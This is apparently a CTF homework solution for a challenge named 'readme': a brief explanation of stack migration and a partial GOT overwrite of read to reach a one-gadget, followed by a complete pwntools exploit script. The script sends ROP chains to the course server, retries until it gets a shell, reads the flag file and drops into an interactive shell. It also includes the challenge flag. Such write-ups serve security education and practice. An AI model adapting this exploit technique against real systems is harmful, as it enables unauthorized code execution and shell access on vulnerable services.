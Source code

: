 # HW3
## readme
* `Stack migrate` and `stack migrate` then continue `stack migrate`.
* I overwrite the last two byte of `*got['read']` cause:
```
read offset -> 0xf7220
one         -> 0xf0274
```
* It has only 4 bits unpredictable.
* So get the shell with probability about 1/16.
> BTW, if use common way of `ret2libc`, you need to bypass `ASLR` first, so you need to call `printf` for you to leak address, but it will use lots of stack so that it will write on the `r--` section, then crash first. 

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{CAN_YOU_R34D_MY_M1ND?}

'''
With probability about 1/16
'''

context.arch = 'amd64'

e , l = ELF('./readme-fc826c708f619e14b137630581b766b23e3db765') , ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')

host , port = 'csie.ctf.tw' , 10135

pop_rdi = 0x4006b3
ppr = 0x4006b1
leave_ret = 0x400646

p = flat(
    'D' * 0x20,
    e.bss() + 0xd00 + 0x20,
    0x40062b
)

p2 = flat(
    ppr,
    e.got['read'],
    0,
    e.plt['read'],
    e.bss() + 0xd00 + 0x20 + 0x20,
    0x40062b
)

p3 = flat(
    e.plt['read'],
    leave_ret,
    2,
    3,
    e.bss() + 0xd00 - 8,
    leave_ret
)

while True:
    y = remote(host,port)

    y.sendafter( ':' , p )
    sleep(0.2)
    y.send(p2)
    sleep(0.2) 
    y.send(p3)
    sleep(0.2)
    y.send( '\x74\x32' )
    sleep(0.1)
    y.sendline( 'cat /home/`whoami`/flag' )

    try:
        log.success( y.recvline() )
        y.sendline( 'id' )
        y.interactive()
    except:
        y.close()
```